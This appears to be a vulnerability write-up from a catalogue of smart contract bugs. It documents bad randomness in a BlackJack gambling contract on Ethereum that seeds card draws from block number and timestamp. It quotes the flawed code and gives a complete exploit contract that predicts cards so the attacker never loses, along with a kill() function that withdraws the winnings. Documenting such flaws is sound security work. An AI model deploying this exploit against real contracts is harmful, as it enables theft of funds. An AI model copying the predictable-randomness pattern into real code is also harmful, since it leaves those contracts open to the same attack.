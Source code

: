 BlackJack
=======
https://etherscan.io/address/0xa65d59708838581520511d98fb8b5d1f76a96cad#code


Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for BlackJack, an Ethereum gambling game, acting as the dealer and play black jack game with users. The developer wrote a `deal()` function that uses block number and timestamp as the seed to determine which card will be drawn next. This can be predicted by writing the same random function code in an exploit contract to determine the card which will be drawn, thus the attacker will never lose.

Related code
------
    library Deck {
	    function deal(address player, uint8 cardNumber) internal returns (uint8) {
		    uint b = block.number;
		    uint timestamp = block.timestamp;
		    return uint8(uint256(keccak256(block.blockhash(b), player, cardNumber, timestamp)) % 52);
	    }
    ......
    }
    
      // deals one more card to the player
	    function hit() public gameIsGoingOn {
		    uint8 nextCard = games[msg.sender].cardsDealt;
		    games[msg.sender].playerCards.push(Deck.deal(msg.sender, nextCard));
		    games[msg.sender].cardsDealt = nextCard + 1;
		    Deal(true, games[msg.sender].playerCards[games[msg.sender].playerCards.length - 1]);
		    checkGameResult(games[msg.sender], false);
	    }

Details
------
After the game starts, you will get two cards. At this point, if the number of points is less than 21, you can choose to call hit() to continue the draw. 
The number of points for the next card is determined by `block.number` and `timestamp`, so attacker can definitely always pick the card he wants.

Exploit
------
    contract Exploit{
    
        BlackJack target;
        address owner;


        function Exploit(address _target) payable{
            target = BlackJack(_target);
            owner = msg.sender;
        }
    
    
        function deal(address player, uint8 cardNumber) returns (uint8) {
		      uint b = block.number;
		      uint timestamp = block.timestamp;
		      return uint8(uint256(keccak256(block.blockhash(b), player, cardNumber, timestamp)) % 52);
	  }
    
    
        function go_deal(uint256 _amount) public{
          target.deal.value(_amount)();
        }
    
    
        //@para card_num is the number you want for next card
        //@para cardsDealt is how many card you already have
        //@dev after you reaching 21 points, target will automaticly transfer the price to you
        function attack(uint256 card_num, uint256 cardsDealt) public payable{
            if(deal(this.address, cardsDealt) == card_num){
                target.hit();
            }
        }
        
	
        function kill() public{
          require(msg.sender == owner);
          msg.sender.send(this.balance);
        }
  
    }
